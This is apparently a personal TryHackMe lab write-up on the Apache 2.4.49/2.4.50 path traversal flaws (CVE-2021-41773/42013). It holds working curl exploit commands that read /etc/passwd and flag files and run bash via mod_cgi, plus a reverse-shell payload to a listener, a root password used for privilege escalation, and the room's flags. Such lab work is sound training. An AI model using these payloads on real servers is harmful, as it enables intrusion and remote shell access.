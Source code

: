 https://tryhackme.com/r/room/cve202141773

#apache #PathTraversal 

```
2.4.49

This vulnerability requires an unusual misconfiguration for it to be exploitable = yea

```


## Path Traversal 

A Path Traversal exploit is an attack that aims to access resources that are normally inaccessible by abusing flaws in path resolution and/or normalization. We'd usually exploit this type of attack by traveling (also known as traversing) backwards beyond the supposed root using the `..` syntax.

### Apache 

A recent change in the path normalization module in the Apache server then allowed a specially crafted URL to bypass the filters and traverse beyond the document root, allowing arbitrary file read on the system if the configuration allowed it. Furthermore, if the CGI module was enabled, then arbitrary file execution is also possible!

```

A path traversal exploit will = allow arbitrary files to be exposed by the server

url-encoded `.` symbol = %2E

%%32%65 = %2e

What module needs to be enabled in order to get remote code execution?
mod_cgi
```


```
# Apache 2.4.49 without CGI:
curl -v 'http://10.10.17.14:8080//cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd'

curl -v 'http://10.10.17.14:8080//cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt'  

# Apache 2.4.49 with CGI: `http://10.10.17.14:8081`
curl -v 'http://10.10.17.14:8081/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /flag.txt' -H "Content-Type: text/plain"

THM{2C3_F20M_C61} 


# - Apache 2.4.50 without CGI: `http://10.10.17.14:8082`
curl 'http://10.10.17.14:8082/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/flag.txt'

THM{D0UBL3_3NC0D1N6_F7W} 


# - Apache 2.4.50 with CGI: `http://10.10.17.14:8083`
curl 'http://10.10.17.14:8083/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo;cat /flag.txt' -H "Content-Type: text/plain"

THM{F1L732_8YP455_2C3}


terminal: nc -lvnp 4444
bash -i >& /dev/tcp/<target_machine_ip>/http://10.10.17.14:8083> 0>&1

curl -v 'http://10.10.17.14:8083/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; sh -i >& /dev/tcp/10.13.77.248/4444 0>&1 ' -H "Content-Type: text/plain"


whoami
daemon

pwd
/bin
cd ..
ls
cat root.txt

THM{F1L732_8YP455_2C3}     not flag

su root
ApacheCVE
ls
find / -name root.txt
cat/root/root.txt

THM{P21V_35C_F20M_4P4CH3_15_FUN}

```

```
https://github.com/jesusgavancho/TryHackMe_and_HackTheBox/blob/master/CVE-2021-41773.md

https://vineethbharadwaj.medium.com/cve-2021-41773-42013-thm-write-up-task-4-8af1832236a5


```

























